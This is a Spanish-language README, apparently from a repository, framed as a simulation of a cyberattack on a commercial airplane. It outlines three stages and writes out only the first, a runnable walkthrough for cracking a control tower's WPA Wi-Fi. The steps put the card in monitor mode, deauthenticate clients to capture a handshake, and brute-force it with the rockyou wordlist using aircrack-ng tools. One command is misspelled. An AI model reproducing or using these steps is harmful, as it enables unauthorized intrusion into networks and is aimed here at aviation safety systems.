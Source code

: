 # Simulación de ciberataque a un avión comercial

El ataque consta de 3 etapas:
1. Acceso a la red Wi-Fi de la torre de control mediante fuerza bruta
2. A través de la conexión a la red Wi-Fi, detectar alguna máquina con control remoto activado y acceder a ella
3. Utilizando la máquina anteriormente secuestrada, alterar señales del avión

## Etapa 1: Acceso a la red Wi-Fi de la Torre de Control
En un computador con sistema operativo Linux (puede ser cualquier distribución: Ubuntu, Kali, etc.) descargar el diccionario de contraseñas `rockyou.txt`. Este se puede descargar en el primer enlace que se obtiene al buscar "rockyou descargar" en Google, correspondiente a un link de GitHub.

Luego, en la terminal de la misma computadora ejecutar los siguientes comandos:
```
cd Descargas/
mv rockyou.txt ../Escritorio/
cd ../Escritorio/
```

> [!NOTE]
> Si el computador está configurado en inglés, debe reemplazar "Descargas" por "Downloads" y "Escritorio" por "Desktop"

```
mkdir wifi_pentest
mv rockyou.txt wifi_pentest/
cd wifi_pentest/
```

Con esto, habremos:
1. Descargado el diccionario de contraseñas `rockyou.txt`
2. Situado dicho diccionario en una carpeta llamada `wifi_pentest` en el Escritorio del computador

Ahora, ejecutamos el siguiente comando para descargar el paquete que nos ayudará a realizar el ataque de fuerza bruta
```
sudo apt install aircrack-ng
```

Una vez instalado, buscamos el nombre de la interfaz de red de la computadora ejecutando el siguiente comando
```
iwconfig
```

Anotamos el nombre de nuestra interfaz de red, el cual seguiremos utilizando a lo largo de todo el proceso.
```
sudo airmon-ng start <nombre_interfaz>
```

Con esto habremos activado el monitor de nuestra interfaz de red. Notarás que, si estabas conectado a Wi-Fi, se desconectará y no te permitirá activar el Wi-Fi.
```
sudo airodump-ng <nombre_interfaz>mon
```

Con esto, se mostrarán las redes Wi-Fi que nuestra computadora detecta. Buscamos la fila en la que aparece nuestra red Wi-Fi objetivo y copiamos el número que tiene en la columna BSSID. Además, memoriazamos el canal, el cual está en la columna "CH".

> [!TIP]
> En caso de que tu computadora detecte muchas redes, probablemente tu red objetivo no estará en pantalla mucho tiempo. Para ello, se recomienda grabar la pantalla para poder poner pausa al video y poder encontrar los datos que necesitamos de nuestra red objetivo.

```
sudo airodump-ng -c <CH> --bssid <BSSID> -w pentest <nombre>mon
```

El nombre `pentest` puede ser otro, aquí se guardará el tráfico de nuestra red objetivo.

Ahora, esperamos a que un dispositivo utilice la red y copiamos el valor de la columna STATION.

Dejamos ese código corriendo y, en otra pestaña de la terminal, escribimos:

```
sudo aireplay-n -0 9 -a <BSSID> -c <STATION> <nombre_interfaz>mon
```

Ejecutamos ese código 3-4 veces aproximadamente hasta que, en la primera pestaña de la terminal, aparezca un valor al lado de "WPA handshake" y presionamos `CTRL+C` para salir de esta ejecución.

Con el siguiente comando vemos los archivos que se han generado en la carpeta `Escritorio/wifi_pentest/`
```
ls
```

De estos archivos, nos interesa el archivo llamado `pentest-01.cap`.

Ahora, ejecutamos el siguiente código:

```
sudo aircrack-ng -b <handshake> -w rockyou.txt pentest-01.cap
```

Con esto, comienza el ataque por fuerza bruta. Trascurridos varios minutos (alrededor de 30), en un caso exitoso, en la terminal se mostrará la contraseña de nuestra red objetivo. Ahora solo falta activar nuestra interfaz Wi-Fi:
```
sudo airmon-ng stop <nombre_interfaz>mon
```
